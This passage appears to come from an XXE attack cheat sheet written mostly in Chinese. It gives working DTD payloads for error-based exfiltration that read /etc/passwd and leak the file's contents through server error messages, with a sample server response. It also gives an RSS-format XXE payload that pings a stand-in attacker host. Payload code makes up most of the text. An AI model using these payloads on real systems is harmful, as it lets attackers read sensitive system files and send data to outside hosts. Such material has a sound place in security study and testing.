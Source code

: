 #### Exfiltrating Data via Error Based

DTD文件：

```xml-dtd
<!ENTITY % data SYSTEM "file:///etc/passwd">
<!ENTITY % foo "<!ENTITY &#37; xxe SYSTEM 'file:///nofile/'>">
%foo;
%xxe;
```

服务器响应：

```xml-dtd
{"status":500,"error":"Internal Server Error","message":"IO error.\nReason: /nofile (No such file or directory)"}
```

好消息是当请求一个不存在的文件时会将反映在错误消息中。接下来是添加文件内容。

DTD File:

```xml-dtd
<!ENTITY % data SYSTEM "file:///etc/passwd">
<!ENTITY % foo "<!ENTITY &#37; xxe SYSTEM 'file:///nofile/%data;'>">
%foo;
%xxe;
```

通过HTTP发送的错误输出中成功打印了文件的内容。

### RSS - XEE

使用RSS格式的XML也可利用出 XXE 的漏洞

#### Ping back

对攻击者服务器发起简单的HTTP请求：

```xml-dtd
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE title [ <!ELEMENT title ANY >
<!ENTITY xxe SYSTEM "http://<AttackIP>/rssXXE" >]>
<rss version="2.0" xmlns:atom="http://www.w3.org/2005/Atom">
<channel>
<title>XXE Test Blog</title>
<link>http://example.com/</link>
<description>XXE Test Blog</description>
<lastBuildDate>Mon, 02 Feb 2015 00:00:00 -0000</lastBuildDate>
<item>
<title>&xxe;</title>
<link>http://example.com</link>
<description>Test Post</description>
<author>author@example.com</author>
<pubDate>Mon, 02 Feb 2015 00:00:00 -0000</pubDate>
</item>
</channel>
</rss>
```
